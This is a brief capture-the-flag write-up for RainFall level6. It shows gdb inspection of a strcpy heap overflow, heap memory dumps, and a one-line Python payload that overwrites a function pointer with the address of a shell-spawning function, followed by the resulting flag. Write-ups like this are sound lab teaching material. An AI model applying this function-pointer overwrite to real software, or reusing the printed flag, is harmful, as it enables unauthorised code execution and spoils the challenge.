 ```
0x08048454  n // shell
0x08048468  m // call puts
0x0804847c  main
```


b at
```
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
=> 0x080484ca <+78>:	mov    0x18(%esp),%eax
```
send 64 chars and inspect the heap

(gdb) info proc mappings

heap starts at 0x804a000

```
(gdb) x/40wx 0x804a000

0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x00000000	0x00000011
0x804a050:	0x08048468

```
addr of func m() [0x08048468] could be seen in the heap 8 addr away from argv[1]
```
(gdb) p 64 + 4 + 4
$1 = 72
```


```
level6@RainFall:~$ ./level6  $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```


















